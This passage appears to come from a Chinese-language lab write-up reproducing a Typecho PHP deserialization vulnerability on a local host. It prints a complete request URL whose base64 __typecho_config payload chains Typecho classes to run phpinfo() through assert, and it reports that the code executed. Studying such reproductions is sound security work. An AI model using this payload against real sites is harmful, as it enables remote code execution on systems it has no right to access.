 访问exe.php网站显示：

![image-20250606164025678](assets/image-20250606164025678.png)

### 访问typecho.php时传入payload

```
http://127.0.0.1/typecho.php?__typecho_config=YToxOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6MTp7czoxODoiAFR5cGVjaG9fRmVlZABpdGVtIjthOjE6e3M6NjoiYXV0aG9yIjtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjk6InBocGluZm8oKSI7fXM6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX2ZpbHRlciI7YToxOntpOjA7czo2OiJhc3NlcnQiO319fX19
```

获得如下结果：显示当前电脑安装的php信息，说明我们呢的phpinfo()成功执行：
